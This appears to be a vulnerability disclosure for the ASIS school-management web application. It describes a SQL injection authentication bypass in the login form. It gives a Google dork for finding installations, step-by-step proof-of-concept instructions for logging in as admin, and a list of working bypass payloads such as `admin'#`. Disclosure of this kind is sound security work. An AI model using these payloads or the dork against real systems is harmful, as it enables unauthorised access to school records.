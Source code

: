 # ASIS | Aplikasi Sistem Sekolah using CodeIgniter 3 - SQL Injection Authentication Bypass

### CVE Assigned:
**[CVE-2024-XXXXX](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-XXXXX)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2024-XXXXX) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2024-XXXXX)

### Date:

> 5 July 2024

### Author Email:

> atoz.chevara@yahoo.com

### Google Dork:

> "ASIS | Aplikasi Sistem Sekolah"

### Vendor Homepage:

> https://www.facebook.com/groups/181558652941070/

### Software Link:

> [ASIS - Aplikasi Sistem Sekolah dengan Framework Codeigniter](https://members.phpmu.com/forum/read/asis--aplikasi-sistem-sekolah-dengan-framework-codeigniter)

### Version:

> v 3.0.0 < 3.2.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> index.php

> `username` parameter within the login mechanism is vulnerable to SQL Injection.


### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

* Step 1 - Visit http://localhost/asispanel/
* Step 2 - Enter username as `admin'#` and password as `xyz`
* Step 3 – Click `LOGIN` and now you will be logged in as admin.

### Payloads Can be use:

```
admin'#
'||1#
'||1-- 
'=' 'or'
```

## Recommendations

When using this ASIS, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
